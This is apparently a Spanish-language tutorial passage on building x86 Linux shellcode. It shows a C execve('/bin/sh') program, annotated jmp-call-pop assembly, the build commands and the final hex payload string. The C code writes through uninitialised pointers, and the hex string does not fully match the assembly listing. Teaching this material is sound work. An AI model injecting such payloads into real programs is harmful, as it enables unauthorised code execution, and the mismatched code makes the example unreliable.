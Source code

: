 ```c
#include 
 
int main(){
	char filename[] = "/bin/sh\x00";
	char **argv, **envp;

	argv[0] = filename;             // único argumento: nombre del programa
	argv[1] = 0;                    // \0 fin del array de argumentos

	envp[0] = 0;                    // \0 fin del array de entorno

	execve(filename, argv, envp);
}
```

1. Código en assembler: `shellcode.asm`

   ```text
        section .text
          global _start

         _start:
   +---<   jmp short dummy        ; 1.
   | 
   |  -> shellcode:               ; 3.
   |  |    xor eax,eax            ; eax = 0
   |  |    pop ebx                ; ebx => "/bin/shABBBBCCCC"
   |  |    mov [ebx+7], al        ; execve("/bin/sh\0", BBBB, CCCC).
   |  |    mov [ebx+8], ebx       ; execve("/bin/sh\0", &"/bin/sh", CCCC). [ebx+8]: argv
   |  |    mov [ebx+12],eax       ; execve("/bin/sh\0", &"/bin/sh", 0000). [ebx+12]: envp
   |  |  
   |  |    lea ecx, [ebx+8]       ; ecx = argv
   |  |    lea edx, [ebx+12]      ; edx = envp
   |  |    mov al,11              ; syscall execve: #11
   |  |    int 0x80               ; execve("/bin/sh\0", &"/bin/sh", 0000)
   |  |    
   |  |    mov al,1               ; syscall exit: #1
   |  |    xor ebx, ebx           ; ebx = 0
   |  |    int 0x80               ; exit(0)
   |  |
   -->|  dummy:                   ; 2.
      +--< call shellcode         ; apilo addr "/bin/shABBBBCCCC"
           db '/bin/shABBBBCCCC'  ; execve(/bin/shA, BBBB, CCCC);
   ```

2. Shellcode como string

   ```text
   user@abos:~$ nasm -f elf shellcode.asm                               ; ensamblamos
   user@abos:~$ ld -N shellcode.o -o shellcode                          ; linkeamos
   user@abos:~$ objcopy -j .text -O binary shellcode.o shellcode.bin    ; extraemos section .text 
   user@abos:~$ hexdump -v -e '"\\" 1/1 "x%02x"' shellcode.bin; echo    ; extraemos byte code de binario
   \xeb\x1e\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x8d\x4b\x08\x8d\x53\x0c\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43
   ```
